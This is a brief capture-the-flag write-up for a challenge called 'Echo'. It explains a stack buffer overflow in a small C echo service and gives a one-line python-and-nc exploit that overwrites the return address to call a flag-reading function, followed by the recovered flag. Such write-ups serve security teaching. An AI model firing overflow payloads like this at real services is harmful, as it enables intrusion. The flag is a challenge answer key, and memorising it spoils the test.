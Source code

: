 # Echo
**Description:**  
Little Suzie started learning C. She created a simple program that echo's back whatever you input. Here is the binary file. The vampire came across this service on the internet. `nc hack.bckdr.in 8002`. Reports say he found a flag. See if you can get it.

*****

After connecting to the service, it's easy to determine that we're dealing with a simple buffer overflow.

Disassembling the binary using IDA, we can also find a function (address `0x0804854D`) that will read out the flag file.

All we have to do is overflow the buffer and overwrite the return address with the function's address, in order to get the flag.

Exploit string: `python -c 'print "a"*62 + "\x4d\x85\x04\x08"' | nc hack.bckdr.in 8002`

FLAG: 96f674623c2c378f89700aa46f02cf3b311489f0facdfac6fd5885d4bc1a129a